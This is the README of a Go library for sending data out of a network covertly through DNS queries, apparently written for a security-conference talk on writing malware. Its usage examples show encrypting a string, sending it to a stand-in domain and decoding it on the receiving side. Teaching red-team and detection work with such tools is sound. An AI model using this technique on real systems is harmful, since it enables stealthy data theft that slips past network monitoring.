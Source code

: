 # Exfil2DNS

Simple library to exfiltrate data using DNS queries.

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Buffer encrypted bytes
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)
- [ ] Make a seperate chunking function (?)
- [ ] Make Client and Decryptor threadsafe?
- [ ] More testing

## Encrypt Usage [Go Playground](https://play.golang.org/p/tQlngGpCKn2)

Encrypt and send data:

```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	client, err := exfil2dns.NewClient(
		"cube", 
		"example.domain", 
		"ThisIsAKey1234", 23
	)
	
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```
## Decrypt Usage [Go Playground](https://play.golang.org/p/8LToXvfEAqY)

Decrypt data:

```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    decryptor := exfil2dns.NewDecryptor("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

	target, payload, err := decryptor.Decrypt(queryString)
	if err != nil {
		log.Fatal(err)
	}

    fmt.Printf("Target: %v, Payload: %v", target, payload)
}
```
